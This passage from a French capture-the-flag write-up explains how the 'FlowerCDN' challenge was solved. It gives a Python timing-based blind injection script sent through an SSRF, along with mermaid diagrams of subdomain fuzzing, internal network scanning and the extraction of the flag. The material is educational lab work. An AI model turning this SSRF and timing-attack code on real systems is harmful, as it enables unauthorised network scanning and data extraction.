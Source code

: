 ```python
        burp0_data = {"url": f"http://172.26.0.3/search?name=w&surname={guess}&searchby=surname"} #name puis surname
        res = requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data, timeout=10)
        ellapsed = res.elapsed.total_seconds()
        print(f"{ellapsed}: {guess}")
        if ellapsed > (0.32*len(guess)): # En ajustant on constate qu'un char met 0.32s en plus mini
            print(f"FOUND {ellapsed}: {guess}") # Il faudrait ajouter un faux positif en regardant si ça impacte les chars suivants aussi
            blind(guess)
blind('')
```
On parvient à exfilter: Dominique en name et Lavigne en surname !
Ce qui nous donne Hero{Dominique:Lavigne}

### Pour y voir un peu plus clair sur le challenge, voici un petit diagramme:
```mermaid
sequenceDiagram
Nous->> FlowerCDN: GET /server-status
FlowerCDN ->> Nous: Erreur mentionnant flowercdn.hero
Nous-->>192.46.233.16: wfuzz xxxxx.flowercdn.hero
192.46.233.16->> Nous: documentation.flowercdn.hero existe !
Nous->> documentation.flowercdn.hero (172.5.0.7): /GET
documentation.flowercdn.hero (172.5.0.7) ->> Nous: Documentation de l'API interne
Nous->>FlowerCDN: POST Add new url, scan SSRF
FlowerCDN->>172.5.0.0/24: file_get_contents (GET)
172.5.0.0/24->>FlowerCDN: Erreur (ou non)
FlowerCDN->>172.6.0.0/24: file_get_contents (GET)
172.5.0.0/24->>FlowerCDN: Erreur (ou non)
Note right of FlowerCDN: On scanne le réseau avec wfuzz<br/> si l'hote existe on a pas d'erreur<br />On peut identifier nos targets
Nous->> FlowerCDN: POST Add new url, payload blind
FlowerCDN->>172.6.0.3: file_get_contents (payload en GET)
172.6.0.3->>FlowerCDN: Réponse (temps de réponse + - long)
FlowerCDN ->> Nous: Réponse invalid type
Note right of Nous: Le temps de réponse nous donne une <br /> indication si le caractère est présent ou non
```

En résumé voici le cheminement de nos requêtes pour mener à bien cette attaque. La lenteur de la réponse sur l'API inconnue en cas de bon caractère nous permet de faire la blind.

```mermaid
graph LR
A[Nous] -- Ajout image par Url --> B((FlowerCDN))
B -- file_get_contents --> C{API interne}
C -- Envoi du log --> D[(Une API inconnue)]
D -- Réponse lente ou non --> C
C -- Réponse --> B
B -- Erreur Invalid File Type --> A
```
